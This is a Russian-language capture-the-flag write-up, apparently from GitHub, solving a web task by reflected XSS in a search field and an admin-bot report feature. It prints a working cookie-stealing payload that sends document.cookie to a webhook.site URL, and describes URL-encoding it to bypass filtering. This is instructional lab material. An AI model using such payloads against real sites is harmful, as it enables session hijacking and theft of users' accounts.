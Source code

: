 **Клиент всегда прав**  
**IP**: 62.173.140.174:16013  
**Описание**: Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?  
Перейдя на сайт видим строку поиска и ссылки на публикации  
![image](https://github.com/QpilCapybaru/CTF/assets/162910881/9677b81b-2dc2-4beb-ba77-58dd1d41a324)  
Если в поиске указать полное название статьи или перейти по ссылке то мы попадём на страницу с публикацией  
![image](https://github.com/QpilCapybaru/CTF/assets/162910881/f4931832-aa93-44d1-9ab8-15ae0aa34e9f)  
Пробуем написать в строку поиска XSS  
````javascript
<script>alert('XSS=ETO_BAZA')</script>
````  
И видим что это работает  
![image](https://github.com/QpilCapybaru/CTF/assets/162910881/11eb055a-17e6-44dd-9459-9507c110d0b5)  
Мы можем отправить репорт на страницу с публикацией  
![image](https://github.com/QpilCapybaru/CTF/assets/162910881/f5f4d20d-938f-49d3-b017-a09f1bde238f)  
Дальше был написан payload (нагрузка)  
````javascript
<script>document.write('<img src="https://webhook.site/******/?c='%2bdocument.cookie%2b'" />');</script>
````
Для просмотра чекера (админа который проверяет) был использован сайт webhook.site  
Чтобы обойти фильтрацию обепнул payload в http://62.173.140.174:16013/?search=  
И для корректной работы закодировал в url  
![image](https://github.com/QpilCapybaru/CTF/assets/162910881/79ff171b-379d-417a-8f6d-f34aec7f49af)
После чего отправил репорт и получил флаг  
![image](https://github.com/QpilCapybaru/CTF/assets/162910881/0e1383ff-475b-43dd-a93e-12b0848b493e)
